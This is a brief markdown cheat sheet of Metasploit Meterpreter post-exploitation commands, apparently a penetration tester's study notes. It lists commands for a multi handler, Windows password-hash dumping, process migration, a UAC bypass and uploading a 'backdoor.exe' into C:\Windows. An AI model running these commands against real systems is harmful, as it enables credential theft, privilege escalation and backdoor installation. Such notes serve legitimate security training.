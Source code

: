 # Common Meterpreter Commands

https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/


## Multi handler:

```
use exploit/multi/handler
```

## Reopen session:

```
session -i #
```

## Get hashes:

```
run post/windows/gather/hashdump
```

## migrate:

```
run post/windows/manage/migrate
```

or

```
use post/windows/manage/archmigrate
```

## Bypass UAC:

Use with an already achieved meterpreter shell:

- `use exploit/windows/local/bypassuac`
- `set SESSION <#>`
- `exploit`

This can be used to enable the `getsystem` command to work (potentially).

## Upload and download files:

`meterpreter > download Logs.log /root/`
`meterpreter > upload /root/backdoor.exe C:\\Windows`